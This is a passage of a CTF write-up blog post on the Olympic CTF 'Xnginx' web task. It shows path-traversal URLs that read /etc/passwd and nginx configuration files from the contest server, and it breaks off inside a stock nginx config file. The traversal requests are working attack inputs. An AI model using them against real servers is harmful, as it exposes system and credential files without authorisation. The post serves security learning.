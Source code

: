 +++
author = "pwntester"
categories = ["CTF", "Web", "OlympicCTF"]
date = 2014-02-09T16:54:00Z
description = ""
draft = false
slug = "olympic-ctf-curling-tasks"
tags = ["CTF", "Web", "OlympicCTF"]
title = "Olympic CTF CURLing tasks"

+++


I had the honour to participate with **int3pids** in the #Olympic CTF and these are the write ups of the Web tasks we solved.

## CURLing 200: Xnginx

In this level we were presented with a simple web site where we could check some news

![](/images/octopress/olympic-web200-1.png)

First thing to notice is that the news URL is vulnerable to path transversal:

```lang-bash line-numbers 
http://109.233.61.11:27280/news/?f=31-12-2013
```

```lang-bash line-numbers 
http://109.233.61.11:27280/news/?f=../../../../../etc/passwd
```

Since the name of the task was **xnginx** I looked for the nginx configuration file:

```lang-bash line-numbers 
http://109.233.61.11:27280/news/?f=../../../etc/nginx/nginx.conf
```

That returned the configuration file:

![](/images/octopress/olympic-web200-2.png)

Looking at the configuration file we can see where the site configuration is stored so we issued another request to fetch the site config:

```lang-bash line-numbers 
http://109.233.61.11:27280/news/?f=../../../etc/nginx/sites-enabled/default
```

Config file:

```lang-bash line-numbers data-line=35-38 
# You may add here your
# server {
#   ...
# }
# statements for each of your virtual hosts to this file

##
# You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# http://wiki.nginx.org/Pitfalls
# http://wiki.nginx.org/QuickStart
# http://wiki.nginx.org/Configuration
#
# Generally, you will want to move this file somewhere, and start with a clean
# file but keep this around for reference. Or just disable in sites-enabled.
#
# Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
##

```